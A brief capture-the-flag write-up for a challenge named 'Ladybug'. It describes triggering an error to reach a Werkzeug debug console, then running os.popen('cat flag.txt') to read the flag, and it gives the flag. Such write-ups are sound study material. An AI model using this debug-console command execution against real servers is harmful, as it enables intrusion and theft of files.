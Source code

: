# Ladybug

Enter /film/aaa to trigger error and get to werkzeug prompt

```python
import os
os.popen("cat flag.txt").read()
```

## Flag:flag{weurkzerg\_the\_worst\_kind\_of\_debug}

